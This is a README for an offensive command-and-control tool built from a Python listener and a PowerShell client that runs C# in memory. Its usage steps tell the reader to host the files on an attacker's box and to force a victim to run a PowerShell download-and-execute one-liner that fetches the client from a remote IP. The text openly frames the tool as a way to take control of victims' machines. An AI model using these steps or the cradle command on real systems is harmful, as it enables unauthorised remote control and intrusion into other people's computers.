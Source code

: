 # Reverse-C2-Channel
This repo contains custom C2 channel, built with Powershell + C# + Python

# C2 Parts
listener.py is designed for callback handler and server application.
client.ps1 is powershell script which is loading pure C# callback code. The idea is abusing the powershell's ability to arbitrary load and run C# code directly in memory.

# How to use:
1. Open client.ps1 with any text editor and modify your IP / Port
2. Host both listener.py and client.ps1 to the attacker's box (python3 -m http.server 80)
3. Force the victim to remotely run and execute the powershell script in memory (for example: powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.126.128/client.ps1')"
